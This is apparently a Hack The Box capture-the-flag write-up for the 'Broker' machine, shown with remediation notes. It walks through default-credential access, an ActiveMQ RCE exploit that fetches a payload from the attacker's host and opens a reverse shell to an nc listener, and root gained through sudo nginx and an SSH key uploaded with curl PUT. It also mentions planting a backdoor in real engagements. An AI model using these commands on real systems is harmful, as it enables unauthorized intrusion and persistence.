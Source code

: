 ```yaml
---
title: "HTB | BROKER"
date: 2024-07-24 00:00:00 +0800
categories: [HTB]
tags: [Linux]                    
---
```

  
![img-description](/assets/img/HTB/htb.png)
  
## Initial Access - Weak Credentials + Publicly Available Exploit leads to RCE
  
**Vulnerability Explanation:** The web server on port 80 is running with weak credentials admin:admin. This allows for access to the application. A publicly available exploit is available off of github and can be used to gain RCE to the machine.

**Vulnerability Fix:** The credentials to the webserver are compromised and should be changed immediately. Replace credentials with a strong one or remove webserver if not needed.

**Severity:** Critical

**Steps to reproduce the attack:** The initial scan revealed that TCP port 80 is open. The site is protected with a login prompt but is easily passed with weak credentials of admin:admin. Christian discovered a vulnerable application called 'ActiveMQ' running. A public exploit was found off of github and used to gain RCE.

**Port Scan Results**  

**TCP:** 22, 80

**UDP:** NA

Use nmap to scan the target for open ports.

TCP port 22, 80 was discovered.

```shell
sudo nmap -p- -T5 10.10.11.243 -oN nmap.initial
```

![img-description](/assets/img/HTB/BROKER/1.png)

Navigating to the server via web browser reveals a login prompt. Credentials are **admin:admin**.

![img-description](/assets/img/HTB/BROKER/2.png)

![img-description](/assets/img/HTB/BROKER/3.png)
The webserver is running an application called 'ActiveMQ'. A publicly available exploit can be found on github. The exploit requires us to host the poc.xml file. The poc.xml file also needs to be updated with our ip. 

* https://github.com/evkl1d/CVE-2023-46604

![img-description](/assets/img/HTB/BROKER/4.png)
![img-description](/assets/img/HTB/BROKER/5.png)
```shell
nano poc.xml
```
![img-description](/assets/img/HTB/BROKER/6.png)
```shell
python3 -m http.server 80
```
![img-description](/assets/img/HTB/BROKER/7.png)
Open a nc listener to catch the incoming shell and run the exploit.
```shell
nc -nlvp 9001
```
![img-description](/assets/img/HTB/BROKER/8.png)
```shell
python exploit.py -i 10.10.11.243 -u http://10.10.16.7/poc.xml
```
![img-description](/assets/img/HTB/BROKER/9.png)
![img-description](/assets/img/HTB/BROKER/10.png)
We have successfully obtained initial access to the target machine as user 'activemq'.

## Privilege Escalation - Sudo Privileges + SSH-keygen

**Vulnerability Explanation:** The user 'activemq' has access to run a command with sudo privileges. This allows for an attacker to start a webserver and access the file system as 'root'. A malicious ssh key can be uploaded and used to gain root access to the machine. 

**Vulnerability Fix:** Remove the available sudo privileges command from the 'activemq' account if not needed.

**Severity:** Critical

**Steps to reproduce the attack:** Christian ran the command 'sudo -l' to list the sudo privileged commands available to the user 'activemq'. A command was found using 'nginx'. Starting the server allows access to the file system as 'root'. Christian created an ssh key via 'ssh-keygen' and placed it into the root /.ssh/authorized_keys folder to gain access via ssh.

Check sudo privileges for user 'activemq' with 'sudo -l.' It has sudo privileges to run 'nginx'.

```shell
sudo -l
```
![img-description](/assets/img/HTB/BROKER/11.png)
Create a configuration file that allows us to access the webserver and PUT method.

![img-description](/assets/img/HTB/BROKER/12.png)
Move the file to the target machine via the previously created python webserver.
```shell
wget http://10.10.16.7/exploit.conf
```

Start the webserver with our exploit.conf file and sudo.
```shell
sudo /usr/sbin/nginx -c ~/exploit.conf
```

We can now access the file system as root. 

![img-description](/assets/img/HTB/BROKER/13.png)
Create an ssh key pair using ssh-keygen.
```shell
ssh-keygen
```

Transfer the 'id_rsa.pub' file to the target machine. Then put it into the root /.ssh/authorized_keys folder  via the web servers.
```shell
wget http://10.10.16.7/id_rsa.pub .
```
```shell
curl -X PUT http://10.10.11.243:1234/root/.ssh/authorized_keys --upload-file ~/id_rsa.pub
```
![img-description](/assets/img/HTB/BROKER/14.png)
Root access to machine was successfully obtained via SSH.
```shell
ssh root@10.10.11.243
```
![img-description](/assets/img/HTB/BROKER/15.png)

## Post Exploitation 

Since this is a CTF the objective is only to retreive the flag located in the /root directory as a privileged user. 

In a real world assessment, we would attempt to add a back door for continuous access to the machine.